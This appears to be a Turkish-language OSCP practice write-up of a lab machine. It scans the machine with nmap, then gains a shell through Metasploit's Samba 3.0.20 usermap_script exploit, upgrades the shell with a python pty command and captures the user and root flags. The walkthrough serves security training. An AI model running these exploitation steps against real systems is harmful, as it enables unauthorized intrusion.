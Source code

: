 # OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  
```
 
![image](./assets/5.PNG)

https://www.exploit-db.com/exploits/17491 - FTP versiyonunda Command Execution açığı olduğu görülüyor. 

FTP’den girmeyi denedim. 

```console
tcp> open 

(to) 10.129.86.76  
```

![image](.\assets\6.PNG)


PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 
 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 

 
```console
msf6 > search samba 3.0.20 
```

![image](.\assets\1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](.\assets\2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](.\assets\3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](.\assets\4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 


